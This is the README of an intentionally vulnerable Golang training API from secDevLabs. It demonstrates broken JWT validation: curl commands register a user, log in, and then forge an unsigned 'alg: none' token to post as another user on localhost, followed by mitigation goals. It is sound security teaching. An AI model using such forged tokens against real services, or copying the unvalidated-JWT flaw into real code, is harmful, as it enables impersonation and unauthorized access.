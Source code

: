 # Camp Crystal Lake API

[Acessar conteúdo em Português](README_PT_BR.md) 

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/>
</p>

Camp Crystal Lake API is a simple Golang web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Access control enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits. 

Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Then simply visit [localhost:20001][App] ! 😆

## Get to know the app 💵

To properly understand how this application works, you can follow this step:

- Registering a user, log in and create a new post!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Incorrect JWT validation, such as not validating the signature algorithm used, allows malicious users to create fake tokens and abuse JWT non-validation.

To better understand how the API works, we'll create a new user.

For this example we create the user with the following login credentials - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

With the created user, we will login to the application with their credentials to get the JWT token. As it is a test application, the JWT token is returned to the user as soon as he is logged in.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

In possession of the JWT token, we can create a new post in the API, making a POST request directly to the authenticated route `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

However, the API does not verify the signature used by the JWT token, any malicious user can create a fake token, as shown by the image:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Use fake tokens without a valid signature.
* Impersonate other users through manipulation of the JWT.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/labels/Camplake-API)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
